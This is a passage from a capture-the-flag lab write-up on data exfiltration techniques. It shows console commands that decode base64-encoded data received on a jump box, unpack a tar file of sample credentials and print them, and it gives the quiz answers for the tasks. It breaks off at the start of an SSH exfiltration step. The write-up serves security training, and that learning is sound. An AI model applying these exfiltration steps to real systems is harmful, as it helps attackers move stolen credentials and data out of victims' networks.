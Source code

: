 We can recover our data into a tar file :

```console
thm@jump-box:~$ cd /tmp/
thm@jump-box:/tmp$ dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar
0+1 records in
0+1 records out
244 bytes copied, 0.000221443 s, 1.1 MB/s
```
{: .nolineno }

Finally, we  can extract the content of the tar file and read the data received :

```console
thm@jump-box:/tmp$ tar xvf task4-creds.tar 
task4/
task4/creds.txt
thm@jump-box:/tmp$ ls
task4  task4-creds.data  task4-creds.tar
thm@jump-box:/tmp$ cd task4
thm@jump-box:/tmp/task4$ ls
creds.txt
thm@jump-box:/tmp/task4$ cat creds.txt 
admin:password
Admin:123456
root:toor
```
{: .nolineno }

No Answer.

## TASK 5 : Exfiltration using SSH
### All packets sent using the Data Exfiltration technique over SSH are encrypted! (T=True/F=False)

 "In this task we will show how to use SSH protocol to exfiltrate data over to an attacking machine. SSH protocol establishes a secure channel to interact and move data between the client and server, so all transmission data is encrypted over the network or the Internet."

Answer : T
Replicate the steps to transfer data over the SSH client. Once you transfer the file successfully, hit Completed and move on to the next task!

Prepare data on the victim to be exfiltrate :

```console
thm@victim1:~$ cat task5/creds.txt 
admin:password
Admin:123456
root:toor
```
{: .nolineno }

Exfiltrate data over SSH :
